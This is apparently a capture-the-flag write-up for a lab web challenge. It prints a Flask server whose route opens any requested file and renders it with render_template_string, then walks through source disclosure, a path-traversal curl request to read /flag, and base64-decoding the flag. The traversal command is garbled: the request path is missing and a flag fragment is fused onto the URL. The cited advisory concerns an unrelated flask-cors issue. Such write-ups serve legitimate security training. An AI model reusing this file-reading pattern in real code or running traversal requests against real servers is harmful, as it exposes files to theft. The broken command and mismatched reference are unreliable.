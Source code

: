 ## Web Hacking 04
> The Flag is hidden somewhere on the website, can you find it?
> 
> http://192.168.10.5:5000
> 
> Warning, the Flag is split into 2 parts, make sure to find them and combine both parts before submitting.

The webserver is a guicorn, so a python based server. On initial request it redirects to `/index.template`. The HTML source has a comment in the last line which shows the source file name `server.py`.

When requested, the server sends the raw source code, containing the first part of the flag.
```python
$ curl http://192.168.10.5:5000/server.py

import flask, sys, os
import requests

app = flask.Flask(__name__)
counter = 12345672


@app.route('/<path:page>')
def custom_page(page):
    if page == 'favicon.ico': return ''
    global counter
    counter += 1
    try:
        template = open(page).read()
    except Exception as e:
        template = str(e)
    template += "\n<!-- page: %s, src: %s -->\n" % (page, __file__)
    return flask.render_template_string(template, name='test', counter=counter);

@app.route('/')
def home():
    return flask.redirect('/index.template');

if __name__ == '__main__':
    flag1 = 'FLAG PART 1: Y3liZXJjdGZke2Qwbjdf'
    with open('/flag') as f:
            flag2 = f.read()

    print("Ready set go!")
    sys.stdout.flush()
    app.run(host="0.0.0.0")

<!-- page: server.py, src: /code/server.py -->
```

The code indicates that the second flag is in the file called `flag`. Since it is one level higher that the `server.py`, we need to exploit a [Path Traversal vulnerability](https://security.snyk.io/vuln/SNYK-PYTHON-FLASKCORS-608972). With the `..` urlencoded in front of the file name, the flag can be obtained.

```bash
$ curl http://192.168.10.5:5000NXBsMTdfbTNfNHA0cjd9

<!-- page: ../flag, src: /code/server.py --> 
```

Combining the two flag parts yields the full, base64 encoded, flag.
```bash
$ echo "Y3liZXJjdGZke2QwbjdfNXBsMTdfbTNfNHA0cjd9" | base64 -d
cyberctfd{d0n7_5pl17_m3_4p4r7}
```

